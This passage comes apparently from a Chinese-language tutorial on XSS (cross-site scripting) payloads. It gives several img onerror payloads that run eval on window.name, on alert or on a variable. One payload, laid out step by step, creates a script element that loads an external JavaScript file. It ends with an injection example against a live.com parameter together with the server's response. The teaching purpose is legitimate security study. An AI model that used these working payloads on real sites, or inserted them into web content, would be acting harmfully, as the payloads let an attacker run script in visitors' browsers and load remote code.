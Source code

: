 ```
<!DOCTYPE html>
<html>
    <body>
        <img src="s.sx" onerror=eval(name) />
    </body>
</html>

```

其实有很多用法，当然你也可以直接:

```
<img src=x onerror=eval(alert(1)) />

```

![2013082023401581483.jpg](http://drops.javaweb.org/uploads/images/b8ad68d49f74279329a507362002a09171d91b3c.jpg)

还可以

```
<img src=x onerror=eval(变量) />

```

![2013082023410714365.jpg](http://drops.javaweb.org/uploads/images/0067bb945a40e073d9a4f6f7d9c7df14e412ac7c.jpg)

还可以通过调用元素属性，或者是程序员自写的js代码

![2013082023425551862.jpg](http://drops.javaweb.org/uploads/images/1eaa51399954ce694ed540d3bad7b8dca2e10724.jpg)

### `<img src=x onerror=with(body)createElement('script').src='[JS地址]'>`

S1:通过img元素的src属性出错，执行onerror事件.

S2:用with定位到body，通过DOM的一个createElement方法创建一个script元素，并使用script的src属性指向需要调用的外部js文件。从而达到攻击的目的。

S3:这个就不讲解了，都应该能够看懂

0x03 实例
-------

* * *

下面引用长谷川的PPT的一部分（此PPT引用经过作者同意）

![2013082023440538047.jpg](http://drops.javaweb.org/uploads/images/eaac8c3144dc348143d902e1551d1bcbbf1698d1.jpg)

![2013082023443139294.jpg](http://drops.javaweb.org/uploads/images/c2308a82d4c49e557b133565d9e908862bed0781.jpg)

通过查看源代码：

地址：

```
https://*.live.com/?param=><h1>XSSed</h1><!--





#!html
<!-- Version: "13.000.20177.00" Server: BAYIDSLEG1C38; DateTime: 2012/05/01 15:13:23 -->
<input type="hidden" value="MESSAGE: A potentially dangerous Request.QueryString value was detected from the client (param="><h1>XSSed</h1><!--").
SOURCE: System.Web FORM:" />

```
